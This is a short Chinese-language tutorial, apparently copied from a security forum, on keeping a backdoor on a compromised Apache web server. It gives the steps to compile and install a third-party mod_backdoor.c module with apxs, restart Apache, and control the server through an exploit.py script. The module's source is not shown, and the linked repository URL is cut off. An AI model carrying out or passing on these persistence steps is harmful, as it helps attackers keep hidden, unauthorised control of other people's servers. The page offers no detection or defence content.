

# Apache后门维持

> 原文：[https://www.zhihuifly.com/t/topic/2810](https://www.zhihuifly.com/t/topic/2810)

# Apache后门维持

## 一、漏洞简介

通过运行第三方脚本，实现维持后门的方法

## 二、漏洞影响

## 三、复现过程

https://github.com/ianxtianxt/apache-

### 1、上传 mod_backdoor.c到服务器，并执行命令

```
apxs -i -a -c mod_backdoor.c && service apache2 restart 
```


### 2、控制端执行方法

```
python exploit.py 127.0.0.1 80 
```

